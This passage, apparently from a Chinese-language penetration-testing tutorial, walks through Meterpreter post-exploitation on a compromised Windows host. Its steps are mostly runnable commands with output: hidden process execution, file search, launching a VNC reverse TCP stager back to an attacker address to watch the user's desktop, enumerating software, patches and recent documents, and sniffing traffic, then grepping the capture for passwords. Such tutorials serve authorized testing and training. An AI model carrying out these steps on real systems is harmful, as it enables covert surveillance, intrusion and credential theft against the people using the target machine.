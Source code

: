```shell
```

### 在目标系统上执行和搜索文件

同属于文件系统命令，上传下载都很简单，搜索和执行文件由于有特殊参数所以这里点一下。

```shell
# 运行目标机器上程序
meterpreter > execute -f c:\\windows\\notepad.exe
Process 2132 created.
# 加上-H表示隐藏的执行
meterpreter > execute -f -H c:\\windows\\notepad.exe
# 在指定目录下搜索指定文件
meterpreter > search -d c:\\windows\\system32 -f hosts
```

### 在目标系统上使用vnc远程桌面

为了可以实时观察目标主机桌面操作情况，可以开始vnc服务，原理是上传vnc的服务，远程执行并连接。vnc不同与3389的远程桌面，若用远程桌面连接则会中断用户操作。

```shell
# 开启目标主机vnc服务
meterpreter > run vnc
[*] Creating a VNC reverse tcp stager: LHOST=192.168.3.12 LPORT=4545
[*] Running payload handler
[*] VNC stager executable 73802 bytes long
[*] Uploaded the VNC agent to C:\DOCUME~1\wangjun\LOCALS~1\Temp\iwbSDvEUrDEU.exe (must be deleted manually)
[*] Executing the VNC agent with endpoint 192.168.3.12:4545...
```

### 查看目标主机安装的程序、补丁以及最近操作的文件

很多情况我们需要知道目标系统上到底安装了哪些软件，以便我们针对不同安装的软件进行渗透操作。也许你希望查看用户最近操作了哪些文件或者程序。

```shell
# 获取目标主机最近进行的系统操作、访问文件和office文档操作记录
meterpreter > run post/windows/gather/dumplinks
# 获取目标主机安装的软件、安全更新与漏洞补丁信息
meterpreter > run post/windows/gather/enum_applications
```

### 抓取目标主机网络流量

使用sniffer可以获取用户网络IO流量，用于分析目标主机网络数据。

```shell
# 查看目标主机网络接口
meterpreter > sniffer_interfaces
# 指定网卡编号进行嗅探抓包
meterpreter > sniffer_start 1 30000
# 查看当前抓包的情况
meterpreter > sniffer_stats 1
# 将流量数据写入cap文件
meterpreter > sniffer_dump 1 /tmp/capture.cap
# 关闭嗅探
meterpreter > sniffer_stop 1

# 使用tshark分析cap数据包获取私密信息
[root@kalibook 00:06:56 ~]# tshark -r /tmp/capture.cap | grep PASS
# 使用wireshark分析cap数据包
[root@kalibook 00:06:56 ~]# wireshark /tmp/capture.cap
```
